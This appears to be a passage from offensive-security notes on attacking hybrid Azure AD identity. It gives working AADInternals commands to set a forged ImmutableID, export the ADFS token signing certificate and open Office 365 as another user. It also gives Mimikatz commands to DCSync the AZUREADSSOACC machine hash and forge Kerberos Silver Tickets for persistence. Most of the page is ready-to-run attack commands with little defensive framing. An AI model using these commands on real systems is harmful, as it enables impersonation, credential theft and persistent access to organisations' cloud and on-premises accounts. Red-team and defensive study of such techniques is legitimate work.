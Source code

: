 With DA privileges on-prem, it is possible to create ImmutableID of cloud-only users with access to Azure AD Connect Sync credentials!

1. **Create a realistic ImmutableID and set it for a cloud-only user:**
```powershell
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_594e67c3-c39b-41bb-ac50-cd8cd8bb780f" -SourceAnchor "pwrtlmsicU+5tgCUgHx2tA=="
```

2. **Using AADInternals, export the token signing certificate:**
```powershell
Export-AADIntADFSSigningCertificate
```

3. **Use the below command from AADInternals to access cloud apps as the user whose ImmutableID is specified:**
```powershell
Open-AADIntOffice365Portal -ImmutableID pwrtlmsicU+5tgCUgHx2tA== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

# Persistence

## Hybrid Identity - Seamless SSO

Azure AD Seamless SSO facilitates automatic user sign-in when they are on a domain-joined on-premises machine, eliminating the need for passwords to log in to Azure AD and on-premises applications.

- It is supported by both Password Hash Synchronization (PHS) and Pass-Through Authentication (PTA).
- When Seamless SSO is enabled, a computer account named AZUREADSSOACC is created in the on-premises Active Directory. This account's Kerberos decryption key is shared with Azure AD.
- Azure AD exposes an endpoint (https://autologon.microsoftazuread-sso.com) that accepts Kerberos tickets. The domain-joined machine's browser forwards the tickets to this endpoint for Single Sign-On (SSO).


### On-PREM to CLOUD

- The password or key of the **AZUREADSSOACC account does not change**.
- Compromising the NTLM hash of the AZUREADSSOACC machine account allows for the creation of Silver Tickets for **any synced on-premises user**.

Using Mimikatz, the NTLM hash of the AZUREADSSOACC machine account can be obtained by executing the following command:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:defeng\azureadssoacc$ /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```

With the userPrincipalName (UPN) and SID of the user, a Silver Ticket can be created that can be utilized from any machine connected to the internet. 

The following Mimikatz command illustrates this process:
```
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin1 /sid:S-1-5-21-938785110-3291390659-577725712 /id:1108 /domain:defeng.corp /rc4:<NTLM_hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
```
